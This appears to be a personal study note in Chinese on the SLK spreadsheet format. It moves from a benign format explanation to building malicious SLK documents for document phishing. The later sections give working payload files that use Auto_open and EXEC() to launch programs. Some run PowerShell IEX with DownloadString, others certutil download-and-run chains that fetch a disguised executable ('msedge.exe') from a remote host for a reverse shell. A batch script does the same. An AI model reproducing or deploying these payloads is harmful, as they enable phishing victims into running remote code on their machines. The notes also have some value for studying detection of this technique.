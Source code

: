 # SLK

## 概述

> [如何在没有 Excel 的情况下打开 SLK 文件 (filext.com)](https://filext.com/zh/wenjian-kuozhan-ming/SLK)
>
> ---
>
> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

SLK 文件大多属于 Microsoft 的 Excel。 SLK 文件是符号链接文件，它是由 Microsoft 开发并主要由 Excel 使用的格式。该文件格式仅使用可显示的 ANSI 字符来存储数据，并允许其他应用程序轻松处理其内容。

在2007年XLSX引入之前且XLS文件是私有文件格式的时候，SLK是XLS的开放格式替代品，对于最终用户来说，SLK文件看起来像一个Excel文档。

- 主要用途: SLK文件格式主要用于程序之间（如微软 Excel 和 Lotus 1-2-3）传输数据。由于这些文件仅使用可显示的 ANSI 字符，因此程序和用户都很容易解释它们，并且可以使用简单的文本编辑器（例如记事本）查看或修改。
- 预览与编辑软件: 虽然该格式主要由 Microsoft Excel 使用，但其他程序（例如 OpenOffice、LibreOffice 和 Gnumeric）也支持该文件格式的变体。
- 文件结构：SLK 文件中的数据以纯文本形式存储，并以分号分隔的值进行组织。要在单元格中包含文字分号，可以使用前面的分号对其进行转义，这将导致字符被视为单元格的一部分，而不是文件结构的一部分。

例如:

```mathematica
ID;P
C;X1;Y1;K"Header1"
C;X2;Y1;K"Header2"
C;X1;Y2;K"Data1"
C;X2;Y2;K"Data2"
E
```

- `ID;P` 是文件的标识符和参数
- `C;X1;Y1;K"Header1"` 表示第1列第1行的单元格内容是"Header1"
  - `C` - `Cell` 表示这是一行单元格数据
  - `X1` 表示单元格所在的列, 第 1 列
  - `Y1` 表示单元格所在的行, 第 1 行
  - `K"Header1"`：表示单元格的内容，`K` 是 "Konstant"（常量）的缩写，`"Header1"` 是该单元格的实际内容，即文字 "Header1"
- `C;X2;Y1;K"Header2"` 表示第2列第1行的单元格内容是"Header2"
- `C;X1;Y2;K"Data1"` 表示第1列第2行的单元格内容是"Data1"
- `C;X2;Y2;K"Data2"` 表示第2列第2行的单元格内容是"Data2"
- `E` 表示文件结束

---

## 调起计算器

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("calc.exe")
C;X1;Y102;K0;EHALT()
E
```

- `NN;NAuto_open;ER101C1;KOut Flank;F`
  - **NN**：名称定义行，定义一个名称及其范围
  - **N**：后面的 `Auto_open` 表示名称。此处定义了一个名称 `Auto_open`
  - **ER101C1**：范围定义，表示范围从 `R101C1` 开始，即第101行第1列。前面的 `E` 可能表示扩展的范围定义
  - **KOut Flank**：为名称 `Auto_open` 赋值，值为 `Out Flank`
  - **F**：标志，可能用于特定标识或格式设置
- `C;X1;Y101;K0;EEXEC("calc.exe")`
  - **K0**：表示单元格的内容，这里是数值 `0`
  - **EEXEC("calc.exe")**：执行命令 `EXEC("calc.exe")`，表示在读取和执行此SLK文件时将运行 `calc.exe`，即打开计算器程序
-  `C;X1;Y102;K0;EHALT()`
  - **K0**：表示单元格的内容，这里是数值 `0`。
  - **EHALT()**：执行命令 `HALT()`，表示停止或结束操作。这通常用于结束脚本或宏的执行。

![image-20240708153941228](http://cdn.ayusummer233.top/DailyNotes/202407081539970.png)

---

## 反弹Shell

> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

`http://100.1.1.131:8000/powershell_curl_reverse_shell.txt`: 

```powershell
curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe;./msedge.exe
```

`slk_reverse_shell.slk`:

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("powershell.exe -nop -c IEX((new-object Net.WebClient).DownloadString('http://100.1.1.131:8000/download/powershell_curl_reverse_shell.txt'))")
C;X1;Y102;K0;EHALT()
E
```

> PS: 无法成功执行此命令, 原因未知
>
> PS: 命令替换成 `powershell.exe -nop -c IEX('calc.exe')` 是可以正常弹出计算器的

---

`shell.cmd`

```cmd
certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete
```

`slk_reverse_shell_shell_cmd_file_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:/temp/shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

---

`slk_reverse_shell_certutil_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("cmd.exe /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete")
C;X1;Y102;K0;EHALT()
E
```

![image-20240708190618861](http://cdn.ayusummer233.top/DailyNotes/202407081906201.png)

![image-20240708190649128](http://cdn.ayusummer233.top/DailyNotes/202407081906298.png)

---

## 参考材料

> [SLK 文档钓鱼 - Google Search](https://www.google.com/search?q=SLK+文档钓鱼&sca_esv=93393d72ee4371e2&biw=1912&bih=972&sxsrf=ADLYWIKrEcaS-mRNnan1YdFHckVXFvvNkA%3A1720173801763&ei=6cSHZqSlLqmnuvQPua2uoA4&ved=0ahUKEwjkvZ_j0o-HAxWpk44IHbmWC-Q4FBDh1QMIDw&uact=5&oq=SLK+文档钓鱼&gs_lp=Egxnd3Mtd2l6LXNlcnAiEFNMSyDmlofmoaPpkpPpsbwyCBAhGKABGMMESONEUNg7WMxBcAJ4AJABAJgBwAKgAagQqgEFMi01LjK4AQPIAQD4AQGYAgOgArsCwgIKEAAYgAQYsAMYDZgDAIgGAZAGAZIHBTIuMC4xoAfJDQ&sclient=gws-wiz-serp)

- [Macos Office攻防 | YoungRichOG](https://youngrichog.github.io/2021/06/16/Macos-Office攻防/)
- [关于文档钓鱼的学习 | 藏青's BLOG (cangqingzhe.github.io)](https://cangqingzhe.github.io/2020/09/02/关于文档钓鱼的学习/)
- [【技术分享】如何绕过受保护视图发起钓鱼攻击-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/87013)
- [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

---

